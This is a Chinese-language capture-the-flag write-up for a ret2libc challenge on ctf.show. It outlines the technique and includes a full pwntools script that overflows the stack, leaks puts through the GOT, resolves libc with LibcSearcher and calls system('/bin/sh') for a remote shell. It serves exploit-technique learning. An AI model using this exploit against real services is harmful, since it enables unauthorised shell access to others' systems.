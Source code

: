 # 挑战简介
ez ret2libc

# 思路
简单的ret2libc，前面超前练了许多，倒是正式开始做的时候就觉得清澈不少  

自己总结下来就是  
- 栈溢出寻找偏移量
- 利用内核有的函数，比如write，puts等，通过plt配合got来泄露函数的真正的地址
- 虽然地址是随机的，但是偏移量是固定的，只要你找出libc的版本；所以你可以通过libcsearcher来判断远端主机libc版本
- libc版本出来后，就可以用**泄露出来的函数地址-版本函数地址**，来取得libc的基地址
- 最后利用**基地址+你想要的函数地址此版本的偏移量**来取得你想要的函数地址或bin_sh地址
- 再利用一次栈溢出，执行即可

```
#!/usr/bin/python3
from pwn import *
from LibcSearcher import *

context.log_level = "debug"

p= remote("pwn.challenge.ctf.show",28179)
elf = ELF('./pwn')


offset = b'a'*(0x9C + 0x4)

sh_addr = 0x804B028

vuln = elf.symbols['ctfshow']

puts_plt = elf.plt['puts']

puts_got = elf.got['puts']
 

payload = offset + p32(puts_plt) + p32(vuln) + p32(puts_got)

p.sendline(payload)

puts_real = u32(p.recvuntil(b'\xf7')[-4:])
print(hex(puts_real))

libc = LibcSearcher('puts',puts_real)
libc_base = puts_real - libc.dump('puts')
print(hex(libc_base))

bin_sh = libc_base + libc.dump('str_bin_sh')
system = libc_base + libc.dump('system')

payload = offset + p32(system) + p32(0xdeadbeef) + p32(bin_sh)

print(payload)

p.sendline(payload)

p.interactive()

```
